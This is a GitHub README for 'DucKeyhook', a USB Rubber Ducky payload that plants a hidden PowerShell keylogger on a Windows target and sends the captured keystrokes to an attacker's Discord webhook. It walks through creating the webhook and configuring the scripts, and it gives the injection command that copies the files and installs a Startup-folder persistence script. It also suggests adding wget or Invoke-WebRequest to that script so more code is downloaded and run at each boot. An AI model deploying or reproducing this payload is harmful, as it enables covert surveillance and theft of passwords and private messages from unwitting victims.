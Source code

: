 # DucKeyhook 
> Chris Taylor [Blue Cosmo]
---

```
________                 ____  __.            .__                   __    
\______ \  __ __   ____ |    |/ _|____ ___.__.|  |__   ____   ____ |  | __
 |    |  \|  |  \_/ ___\|      <_/ __ <   |  ||  |  \ /  _ \ /  _ \|  |/ /
 |    `   \  |  /\  \___|    |  \  ___/\___  ||   Y  (  <_> |  <_> )    < 
/_______  /____/  \___  >____|__ \___  > ____||___|  /\____/ \____/|__|_ \
        \/            \/        \/   \/\/          \/                   \/    
```

## Overview:
DucKeyhook is a USB RubberDucky payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=uHIZZYFeVJA)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Discord Webhook
- Windows Target

## Instructions:
**Create Discord Webhook**
1. create a discord server by clicking the plus button in the bottom left

![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)

2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)

4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

**Set-Up/Installation**
1. in line 5 of *p.ps1*, replace `DISCORDWEBHOOK` with the webhook URL 
```powershell
$webhook = "DISCORDWEBHOOK"
```
2. in line 16 *payload.txt*, change `'L'` to the name of your microSD card
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\p.ps1 $env:temp;cp .\l.ps1 $env:temp;cp .\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
4. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
5. load, encode, and deploy!!

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
